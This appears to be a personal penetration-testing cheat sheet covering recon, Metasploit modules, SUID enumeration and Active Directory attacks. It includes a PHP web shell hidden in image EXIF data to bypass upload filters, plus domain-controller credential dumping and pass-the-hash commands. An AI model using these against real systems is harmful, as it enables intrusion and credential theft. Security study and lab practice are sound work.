 # Recon
Scan aggresivly on all ports with OS detection, version detection, script scanning and traceroute and write to file
```
nmap -p- -T4 -oN <outfile> -A <IP>
```

# Metasploit
local_exploit_suggester is really helpfull, but only on x86

## Correlation

Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


# FTP
Try 
```
ftp <ip>
```
and use "anonymous" as name.

# Local Priv Esc
https://gtfobins.github.io/
https://lolbas-project.github.io/#

# File-Filter-Busting

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg
```
https://github.com/xapax/security/blob/master/bypass_image_upload.md


# Interactive Python pty
`python3 -c 'import pty; pty.spawn("/bin/sh")'`


# Sticky-Bit
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# SMB-Enum
enum4linux

# AzureAD
https://github.com/VbScrub/AdSyncDecrypt/releases
https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

# Windows-RPC-Service
https://nmap.org/nsedoc/scripts/nfs-showmount.html

# Enum AD
`GetNPUsers.py -usersfile <user_list> -dc-ip <dc-ip> <domain>/`

Afterwards crack with john or oclhashcat

# Dumps Cred from DC
`secretsdump.py "<domain>/<user>:<pwd>"@<target-host>`
  
# Use Hash to access pc
`psexec.py -hashes <hash> <user>@<target-host>`

# Locations of files of an linux install
`apt-file list <packet>`
